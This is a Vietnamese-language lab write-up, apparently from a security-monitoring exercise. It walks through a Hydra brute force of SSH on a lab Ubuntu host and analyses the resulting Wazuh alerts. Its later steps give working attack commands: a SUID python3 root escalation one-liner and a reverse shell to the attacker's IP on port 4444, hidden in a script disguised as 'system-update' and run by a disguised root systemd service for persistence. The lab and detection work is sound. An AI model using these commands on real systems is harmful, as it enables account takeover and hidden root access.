# Brute Force SSH — Attack Steps
## Thông tin kịch bản
```
Kỹ thuật MITRE ATT&CK        T1110.001 — Brute Force: Password Guessing
Nguồn tấn công               Kali Linux — 192.168.138.20
Mục tiêu                     Ubuntu Agent (Victim 2) — 192.168.138.150
Dịch vụ                      SSH (port 22)
Công cụ                      HydraWordlistrockyou.txt
```

## Các bước thực hiện
### Bước 1 — Trinh sát mục tiêu (Reconnaissance)
- Trước khi tấn công, kẻ tấn công xác nhận cổng SSH của Victim 2 đang mở:
```
nmap -p 22 -sV 192.168.138.150
```


- Ta sử dụng tham số -sV để phát hiện phiên bản của dịch vụ đang chạy trên máy mục tiêu

### Bước 2 — Thực hiện Brute Force bằng Hydra
```
hydra -l ubuntu \-P /usr/share/wordlists/rockyou.txt \ssh://192.168.138.150 \-t 4 -V -o ~/hydra-result.txt
```
Giải thích từng tham số:
```
Tham số                                                     Ý nghĩa
-l ubuntu                                               Sử dụng username mặc định để bruteforce
-P /usr/share/wordlists/rockyou.txt                     Dùng rockyou.txt làm danh sách mật khẩu
ssh://192.168.138.150                                   Giao thức SSH và IP mục tiêu
-t 4                                                    Giới hạn 4 luồng song song (tránh bị SSH block do quá nhiều kết nối đồng thời)
-V                                                      Verbose — hiển thị chi tiết từng lần thử
-o ~/hydra-result.txt                                   Lưu kết quả vào file
```


- Ở lần thử thứ 100 ta đã tìm ra mật khẩu của user Ubuntu 




- Kiểm tra log trên máy ubuntu agent, ta sẽ lọc thông qua địa chỉ IP của attacker.
```
sudo grep "192.168.138.20" /var/log/auth.log
```

- Sau chuỗi thất bại, kẻ tấn công tìm được mật khẩu đúng. Dòng log ghi nhận đăng nhập thành công có dạng Accepted password
```
Accepted password for ubuntu from 192.168.138.20 port 59432 ssh2
```
- Như vậy quá trình bruteforce đã thành công.

### Bước 3 - Phân tích log trên Wazuh
- Sau khi tiến hành brute force ta sẽ check serverity trên wazuh dashboard

- Ta thấy có khoảng 189 log được đánh giá vào mức severity low và 370 log được đánh giá vào mức severity medium.  Ta sẽ ưu tiên các log 
được gán cho độ nguy hiểm cao trước

- Khi lọc theo rule.id có thể thấy rule.id=2904 chiếm nhiều phần trăm nhất trong số các rule ta sẽ tiến hành kiểm tra. Nhưng kết quả trả về
thì không liên quan đến brute force, Rule 2904 — Dpkg (Debian Package) half configured → đây là log hệ thống của Ubuntu ghi nhận trạng thái cài đặt package bị dở dang, hoàn toàn không liên quan đến tấn công. Rule.groups: syslog, dpkg, config_changed → nhóm log quản lý package, không phải security event. Nên có thể khẳng định đây là một noise từ hệ thống -> False positive

- Khi kiểm tra trên github về các bộ rule của wazuh thì cho thấy có 3 log cần được lưu ý:
```
Rule ID        Mô tả                                        Level       
40111       Multiple authentication failures                10 (High)
2502        PAM authentication failures                     7 (Medium)
5758        Maximum authentication attempts exceeded        8 (Medium)
```
- Rule 40111 là rule tần suất (frequency-based) — không kích hoạt từ một sự kiện đơn lẻ mà theo dõi pattern theo thời gian. Cụ thể, rule kích hoạt khi Wazuh phát hiện 12 lần xác thực thất bại liên tiếp từ cùng một IP trong một khoảng thời gian ngắn, đồng thời SSH daemon báo cáo PAM 5 more authentication failures.

- Điều này có nghĩa là: không phải người dùng nhập sai mật khẩu vài lần — đây là hành vi tự động, có hệ thống, đặc trưng của công cụ brute force như Hydra.
- Dữ liệu thực tế từ alert:
```
{
  "agent": {
    "ip": "192.168.138.150",
    "name": "UbuntuAgent",
    "id": "004"
  },
  "rule": {
    "id": "40111",
    "level": 10,
    "description": "Multiple authentication failures.",
    "frequency": 12,
    "firedtimes": 5,
    "groups": ["syslog", "attacks", "authentication_failures"],
    "mitre": {
      "technique": ["Brute Force"],
      "id": ["T1110"],
      "tactic": ["Credential Access"]
    }
  },
  "data": {
    "srcip": "192.168.138.20",
    "dstuser": "ubuntu"
  },
  "full_log": "Mar 03 13:39:56 huy-VMware-Virtual-Platform sshd[15459]: PAM 5 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.138.20 user=ubuntu"
}
```
- frequency: 12 — Rule yêu cầu ít nhất 12 sự kiện thất bại trước khi kích hoạt. Đây là ngưỡng phân biệt lỗi đăng nhập bình thường với tấn công có chủ đích.
- firedtimes: 5 — Rule này đã kích hoạt 5 lần trong suốt quá trình tấn công, nghĩa là Hydra đã vượt ngưỡng 12 lần thất bại ít nhất 5 lượt.
- level: 10 — Mức High, đủ ngưỡng để kích hoạt webhook sang Shuffle xử lý tự động.
- srcip: 192.168.138.20 — Xác nhận nguồn tấn công là Kali Linux.
- dstuser: ubuntu — Xác nhận tài khoản bị nhắm mục tiêu.
- MITRE T1110 — Brute Force, tactic Credential Access

- Sau khi rule 40111 ở mức Medium xác nhận tổng thể rằng brute force đang diễn ra, nhóm Low severity bên dưới mới là nơi ghi lại từng bước chi tiết của cuộc tấn công. Nhìn vào phân bố Top 5 rules, ba rule liên quan trực tiếp đến SSH chiếm tới 90.2% tổng số alert Low — đây là phản ánh chính xác tần suất Hydra đang hoạt động.
- 

```
Rule ID        Mô tả                                        Level       
5760        authentication_failed                             5
5503        authentication failure                            5
2501        LOGIN FAILURE                                     5
```
- Lý do các rule này nằm ở mức cảnh báo thấp là do đây là các hành vi có thể xảy ra bình thường trong đời sống,
như là một nhân viên nhập sai mật khẩu dẫn tới ghi log. 
- Rule 5503 (10.9%) — Tầng thấp nhất, PAM ghi nhận xác thực thất bại ngay tại cấp độ OS trước khi SSH kịp phản hồi:
```
pam_unix(sshd:auth): authentication failure;
rhost=192.168.138.20 user=ubuntu
```
- PAM là lớp kiểm tra mật khẩu đầu tiên mà mọi yêu cầu xác thực phải đi qua. Mỗi lần Hydra gửi mật khẩu sai, PAM từ chối và ghi log ngay — đây là "bằng chứng gốc" ở tầng thấp nhất.
Rule 5760 (68.9%) — Chiếm gần 70% toàn bộ Low alerts, đây là thông báo Failed password từ SSH daemon sau khi PAM từ chối:
```
Failed password for ubuntu from 192.168.138.20 port 43796 ssh2
```
- Rule này xuất hiện nhiều nhất vì nó ghi nhận mỗi lần thử của Hydra — với ~100 lần thử thì có ~100 alert 5760. Port nguồn thay đổi ngẫu nhiên mỗi lần (43796, 42356...) — dấu hiệu của công cụ tự động chứ không phải người dùng thao tác thủ công.
- Rule 2501 (10.4%) — SSH chủ động ngắt session sau khi vượt MaxAuthTries:
```
Disconnecting authenticating user ubuntu 192.168.138.20 port 42356:
Too many authentication failures [preauth]
```
[preauth] nghĩa là bị ngắt trước khi xác thực thành công — SSH đang tự bảo vệ. Tuy nhiên Hydra không bị cản lại, nó lập tức mở session mới và vòng lặp 5503 → 5760 → 2501 bắt đầu lại từ đầu. Chính vì vậy rule 2501 xuất hiện nhiều lần, tương ứng với số session bị ngắt.
Vòng lặp này tiếp diễn liên tục cho đến 13:40:06 — khi Hydra thử đúng mật khẩu ở một session đang chạy và đăng nhập thành công vào tài khoản ubuntu.

### Bước 4 - Credential access và privilege escalation
- Sau khi Hydra xác nhận credential hợp lệ, kẻ tấn công chuyển sang giai đoạn Credential Access — sử dụng tài khoản vừa chiếm được để thiết lập kết nối SSH hợp lệ vào Victim 2. Điểm nguy hiểm của giai đoạn này so với brute force: hệ thống không còn thấy hành vi bất thường nữa mà chỉ thấy user ubuntu đang đăng nhập bình thường bằng đúng mật khẩu — nếu không có context của chuỗi brute force trước đó, sự kiện này hoàn toàn trông giống hành vi hợp lệ.
- Chạy lệnh
```
ssh ubuntu@192.168.138.150
```
- Sau khi có shell, kẻ tấn công tiến hành thu thập thông tin để hiểu rõ môi trường đang đứng trong đó:

- Kết quả trả về tiết lộ nhiều thông tin quan trọng. whoami và id xác nhận đang chạy với user ubuntu — uid=1001, thuộc group users, không có quyền sudo. Đây là user thường với quyền hạn thấp, chưa thể thực hiện các thao tác hệ thống cấp cao. Tuy nhiên điều đó không có nghĩa là kẻ tấn công bị chặn lại — đây chỉ là bước đầu tiên trong foothold, các bước tiếp theo sẽ tìm cách leo thang đặc quyền.

- Phân tích Log Wazuh: Ngay sau khi kết nối SSH được thiết lập, Wazuh Agent trên Victim 2 ghi nhận sự kiện và gửi về Server:

- Điều này tưởng chừng như rất bình thường, có thể chỉ là một nhân viên nào đó đã truy cập vào tài khoản ubuntu này.
Tuy nhiên đặt trong ngữ cảnh có rất nhiều luồng đăng nhập bất thường vào tài khoản ubuntu thì đây không thể nào là một người dùng bình thường được, đây là đặc trưng của công cụ tự động.
- Toàn bộ chuỗi từ lần thử đầu tiên đến lúc đăng nhập thành công diễn ra trong vỏn vẹn vài phút — tốc độ không thể đạt được nếu là người thao tác thủ công. CHo nên có thể chắc chắn đây là một cảnh báo đúng (True positive).
- Nhưng tài khoản người dùng ubuntu này không có quyền sudo bằng cách kiểm tra ```sudo -l```

- Trong danh sách trả về, phát hiện /usr/bin/python3.2 có SUID bit được set — đây là misconfiguration nghiêm trọng vì python3 cho phép thực thi mã tùy ý. Kẻ tấn công lợi dụng điều này để gọi os.setuid(0) — chuyển UID về 0 (root) — rồi spawn shell mới: ```python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'```


- Kết quả uid=0(root) xác nhận leo thang đặc quyền thành công.

### Bước 5 - Persistence
- Tạo payload reverse shell ẩn trên Victim: Sau khi đã chiếm được quyền root (từ bước Privilege Escalation), kẻ tấn công tiến hành tạo một script chứa lệnh reverse shell. Thay vì để ở thư mục home hay /tmp, kẻ tấn công cất giấu script này sâu bên trong thư mục hệ thống /var/lib/systemd/ và đặt tên là system-update để tránh bị quản trị viên chú ý.
- Thực thi trên Ubuntu Agent (quyền root):
```
mkdir -p /var/lib/systemd/
echo '#!/bin/bash' > /var/lib/systemd/system-update
echo 'bash -i >& /dev/tcp/192.168.138.20/4444 0>&1' >> /var/lib/systemd/system-update
chmod +x /var/lib/systemd/system-update
```



- Tạo Systemd Service ngụy trang: Kẻ tấn công tạo một file cấu hình service của hệ điều hành .service. File này được cố tình đặt tên là system-update-manager.service để ngụy trang thành một tiến trình cập nhật hợp lệ của Ubuntu.
```
cat <<EOF > /etc/systemd/system/system-update-manager.service
[Unit]
Description=System Update Manager Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/var/lib/systemd/system-update
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF
```

- Description=System Update Manager Service: Chữ ngụy trang hiển thị khi admin dùng lệnh systemctl status hoặc top/htop.
- User=root: Đảm bảo khi payload chạy, kết nối trả về cho kẻ tấn công luôn có quyền cao nhất (root).
- ExecStart=...: Đường dẫn trỏ tới file script độc hại đã tạo ở Bước 1.
- Restart=always và RestartSec=10: Đây là cơ chế persistence. Nếu phiên reverse shell bị ngắt (do rớt mạng, hoặc admin kill process), systemd sẽ tự động khởi động lại script này sau mỗi 10 giây, giúp kẻ tấn công không bao giờ mất kết nối.


- Mở listener đón kết nối: Trước khi kích hoạt service độc hại trên máy nạn nhân, kẻ tấn công cần chuẩn bị sẵn một cổng lắng nghe (listener) trên máy của mình để "đón" kết nối dội ngược về.
```
nc -lvnp 4444
```



- Kích hoạt Persistence: Bước cuối cùng, kẻ tấn công đăng ký service này với hệ thống để nó tự động chạy cùng OS mỗi khi máy khởi động (boot), sau đó khởi chạy nó ngay lập tức để lấy shell.
```
systemctl enable system-update-manager.service
systemctl start system-update-manager.service
```
- systemctl enable: Đăng ký service vào danh sách khởi động cùng hệ thống. Tạo một symlink trong thư mục multi-user.target.wants để kích hoạt Persistence.
- systemctl start: Khởi động service ngay lập tức. Lúc này, Ubuntu sẽ chạy file script payload ngầm bên dưới và đẩy reverse shell về máy Kali.
- Kết quả: Trên máy Kali, netcat nhận được kết nối trả về. Kẻ tấn công kiểm tra bằng lệnh id và whoami, xác nhận shell có quyền cao nhất (uid=0(root)). Kể từ lúc này, dù admin có khởi động lại máy hay tắt tiến trình mạng, service vẫn sẽ tự động gọi lại kết nối về Kali.
